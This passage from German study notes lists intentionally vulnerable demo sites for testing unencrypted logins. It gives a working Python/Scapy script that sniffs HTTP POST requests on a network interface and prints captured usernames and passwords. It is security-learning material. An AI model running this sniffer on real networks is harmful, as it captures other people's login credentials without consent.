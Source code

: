

Links zu Webseiten zum Testen von user/passwort login ohne Verschlüsselung:

- [www.stealmylogin.com](https://www.stealmylogin.com/demo.html)

  Auf der Website steht zwar:  

  > Even though the form is being submitted to a secure (HTTPS) page, your login info can be easily stolen.

  Aber die Übertragung ist trotzdem verschlüsselt! Zumindest sieht es so aus.

- [testphp.vulnweb.com](http://testphp.vulnweb.com/login.php)
  **Funktioniert**.
  
- [testhtml5.vulnweb.com](http://testhtml5.vulnweb.com/) – Login Button



```python
import scapy.all as scapy
from scapy.layers import http

def sniff(interface):
    scapy.sniff(iface=interface, store=False, prn=process_sniffed_packet)

def process_sniffed_packet(packet):
    #packet.Method==b'POST'
    if packet.haslayer(http.HTTPRequest) and packet.haslayer(scapy.Raw):
        #packet.show()
        print(packet.Method)            # b'POST'
        
        # nur den Layer mit den Daten ausgeben
        print(packet[scapy.Raw])        # b'uname=user3&pass=passssss'
        print(type(packet[scapy.Raw]))  # <class 'scapy.packet.Raw'>
        
        # Die Daten (von Web-Form)
        print(packet.load)              # b'uname=user3&pass=passssss'
        print(type(packet.load))        # <class 'bytes'>
        print(packet[scapy.Raw].load)   # b'uname=user3&pass=passssss'
        print(packet.load.decode('utf-8'))  # 'uname=user3&pass=passssss'
        print()
        # http://testphp.vulnweb.com/login.php


print("Network Sniffer")
sniff("eth0")
```



Vermutung – Felder können entweder global angegeben werden (`packet.load`) oder aber über das Layer Objekt (`packet[scapy.Raw].load`)

Nach mehreren Schlüsselwörtern suchen:
